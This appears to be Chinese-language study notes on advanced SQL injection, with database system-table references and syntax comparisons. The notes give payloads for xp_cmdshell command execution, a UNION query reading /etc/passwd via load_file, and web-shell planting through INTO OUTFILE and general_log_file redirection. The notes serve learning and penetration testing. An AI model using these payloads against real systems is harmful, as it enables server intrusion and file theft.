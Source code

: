 ### 進階列舉
#### 各資料庫使用者物件
| Oracle           | Ms Access         | Mysql             | MSSQL      |
| ---------------- | ----------------- | ----------------- | ---------- |
| SYS.USER_OBJECTS | MsysACEs          | mysql.user        | sysobjects |
| SYS.TABLES       | MsysObjects       | mysql.db          | syscolumns |
| SYS.USER_VIEWS   | MsysRelationships | mysql.tables_priv | systypes   |
| SYS.USER_TABALES | MsysQueries       | sysdatabases      |            |
| SYS.ALL_TABLES   |                   |                   |            |
| SYS.COLUMNS      |                   |                   |            |
| SYS.USER_OBJECTS |                   |                   |            |

#### 各資料庫符號的差異
|                | MySql                   | MSSQL     | MS Access DB | Oracle    |
| -------------- | ----------------------- | --------- | ------------ | --------- |
| 字串連接       | `concat()`, `concat_ws` | `+`       | `&`          | `||`      |
| 註解           | `–-`,`/**/`,`#`         | `-–`,`/*` | 無           | `–-`,`/*` |
| 子查詢         | v4.1>=                  | 有        | 無           | 有        |
| 預存程序       | v5.0>=                  | 有        | 無           | 有        |
| 支援資料庫資訊 | V5.0                    | 有        | 有           | 有        |

### 進階測試
在滲透攻擊中比較會拿來做文章的漏洞

- ==OPENROWSET==：MSSQL Server允許資料庫訪問另一個資料庫，OPENROWSET存取連結伺服器資料表(預設會關閉，須由SA權限開啟)
	```sql
	-- 範例
	insert into OPENROWSET('SQLoledb','uid=sa;pwd=password;Network=DB MSSCOCN;Address=x.x.x.x,port','select * form database')
	```
- xp_cmdshell：MSSQL Server的功能，Windows命令的Shell，傳入字串執行命令。(預設會關閉，須由SA權限開啟)
	```bash
	exec master..xp_cmdshell 'whoami' > 'test.txt'
	```
- `LOAD_FILE()`：MySQL的功能，但資料庫本身的權限必須擁有讀檔案的權限
	```url
	http://127.0.0.1/LAB/sqli/?id=1' union select database(),load_file('/etc/passwd')
	```
- `INTO OUTFILE()`-Web Shell：MySQL的功能，必須擁有讀寫權限、知道絕對路徑、路徑資料夾必須有寫入權限
	```sql
	'1' union select 1,0x3c3f70687020706870696e666f28293b3f3e into outfile '/var/www/html/test.php'
	```
- LOG WebSell：MySQL的功能，用於更改Log的儲存路徑，但必須擁有root權限、資料庫管理介面(像是phpMyAdmin)、必須知道絕對路徑、路徑資料夾必須有寫入權限
	1. `general_log`，紀錄保存狀態，ON/OFF
	2. `general_log_file`，紀錄儲存的地方
```sql
SET global general_log = 1
SELECT @@basedir
SELECT 1;
SET global general_log_file='/var/www/html/hackable/uploads/test2.php';
SELECT '<?php phpinfo();?>';
```
